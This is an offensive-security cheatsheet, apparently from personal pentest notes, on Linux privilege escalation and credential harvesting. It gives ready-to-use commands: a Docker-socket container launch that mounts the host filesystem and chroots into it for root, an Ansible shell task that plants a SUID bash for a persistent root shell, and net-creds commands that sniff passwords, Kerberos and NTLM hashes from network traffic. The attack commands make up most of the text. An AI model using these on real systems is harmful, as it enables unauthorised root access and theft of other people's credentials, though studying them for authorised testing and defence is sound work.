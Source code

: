 ## Docker

Check [[Docker-Hacking]] for full cheatsheat.
```bash
# Docker group - can spawn new containers + moont + add/retrieve ssh keys for root user
id 
ls -la / # for .dockerenv
env # credentials and networking information in environment variables
docker image ls

# Writable Docker Socket - requires Docker Group
# Typically found
ls -la /var/run/docker.sock
find / -type f -name docker.sock 2>/dev/null
# Then mount 
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

## Ansible

Find a writable playbook or be able to run a bad playbook for some bad Ansible with [shell module](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html)
```yaml
# $USER must be specifed
- name: Bad bash
  ansible.builtin.shell: "cp /bin/bash /home/$USER/bash; chmod u+s /home/$USER/bash"
```

## Traffic Capture

If `tcpdump` see [[Tcpdump-Cheatsheet]] or similar packet capture software is installed it may use to capture sensitive traffic - credentials that can be replayed or reused by an attacker with

- [net-creds](https://github.com/DanMcInerney/net-creds) which *"Sniffs sensitive data from interface or pcap"* from:
	- URLs visited
	- POST loads sent
	- HTTP form logins/passwords
	- HTTP basic auth logins/passwords
	- HTTP searches
	- FTP logins/passwords
	- IRC logins/passwords
	- POP logins/passwords
	- IMAP logins/passwords
	- Telnet logins/passwords
	- SMTP logins/passwords
	- SNMP community string
	- NTLMv1/v2 all supported protocols: HTTP, SMB, LDAP, etc.
	- Kerberos
```bash
# Infiltrate script
python net-creds.py -i $interface -f $IgnorePacketsFromIPAddr 
python net-creds.py -p $ReadFromPCAPfile.pcap
```
